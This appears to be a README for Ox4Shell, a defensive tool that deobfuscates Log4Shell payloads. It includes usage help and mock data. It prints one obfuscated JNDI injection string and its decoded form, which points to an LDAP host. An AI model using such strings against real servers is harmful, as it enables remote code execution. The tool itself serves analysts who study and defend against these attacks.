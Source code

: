 # Ox4Shell
Deobfuscate Log4Shell payloads with ease.


## Description
Since the release of the Log4Shell vulnerability (CVE-...), many tools were created to obfuscate Log4Shell payloads,
making the lifes of security engineers a nightmare.

This tool intends to aid security enginners to unravel the true contents of obfuscated Log4Shell payloads.

For example, consider the following obfuscated payload:
```text
${zrch-Q(NGyN-yLkV:-}${j${sm:Eq9QDZ8-xEv54:-ndi}${GLX-MZK13n78y:GW2pQ:-:l}${ckX:2@BH[)]Tmw:a(:-da}${W(d:KSR)ky3:bv78UX2R-5MV:-p:/}/1.${)U:W9y=N:-}${i9yX1[:Z[Ve2=IkT=Z-96:-1.1}${[W*W:w@q.tjyo@-vL7thi26dIeB-HxjP:-.1}:38${Mh:n341x.Xl2L-8rHEeTW*=-lTNkvo:-90/}${sx3-9GTRv:-Cal}c$c${HR-ewA.mQ:g6@jJ:-z}3z${uY)u:7S2)P4ihH:M_S8fanL@AeX-PrW:-]}${S5D4[:qXhUBruo-QMr$1Bd-.=BmV:-}${_wjS:BIY0s:-Y_}p${SBKv-d9$5:-}Wx${Im:ajtV:-}AoL${=6wx-_HRvJK:-P}W${cR.1-lt3$R6R]x7-LomGH90)gAZ:NmYJx:-}h}
```

After running Ox4Shell, it would transform into an intuitive and readable form:
```text
${jndi:ldap://1.1.1.1:3890/Calc$cz3z]Y_pWxAoLPWh}
```


## Usage
To run the tool simply:
```
~/Ox4Shell » python ox4shell.py --help
usage: ox4shell [-h] [-d] [-m MOCK] (-p PAYLOAD | -f FILE)

   ____       _  _   _____ _          _ _ 
  / __ \     | || | / ____| |        | | |
 | |  | |_  _| || || (___ | |__   ___| | |
 | |  | \ \/ /__   _\___ \| '_ \ / _ \ | |
 | |__| |>  <   | | ____) | | | |  __/ | |
  \____//_/\_\  |_||_____/|_| |_|\___|_|_|

Ox4Shell - Deobfuscate Log4Shell payloads with ease.
    Created by Oxeye.io

optional arguments:
  -h, --help            show this help message and exit
  -d, --debug           Enable debug mode
  -m MOCK, --mock MOCK  The mock data JSON file
  -p PAYLOAD, --payload PAYLOAD
                        The payload to deobfuscate
  -f FILE, --file FILE  A file containing payloads
```


## Mock Data
Ox4Shell uses the `mock.json` file to insert common values into certain lookup function, for example,
if the payload contains the value `${env:HOME}`, we can replace it with a custom mock value.

For example, the default set of mock data provided is:
```json
{
    "hostname": "ip-172-30-20-110",
    "env": {
        "aws_profile": "staging",
        "user": "ubuntu",
        "pwd": "/opt/",
        "path": "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/jvm/java-1.8-openjdk/jre/bin:/usr/lib/jvm/java-1.8-openjdk/bin"
    },
    "sys": {
        "java.version": "16.0.2",
        "user.name": "ubuntu"
    },
    "java": {
        "version": "Java version 16.0.2",
        "os": "Linux 5.10.47-linuxkit unknown, architecture: amd64-64"
    }
}
```

## Authors
- [Daniel Abeles](https://twitter.com/Daniel_Abeles)
- [Ron Vider](https://twitter.com/ron_vider)


## License
The source code for the site is licensed under the MIT license, which you can find in the LICENSE file.
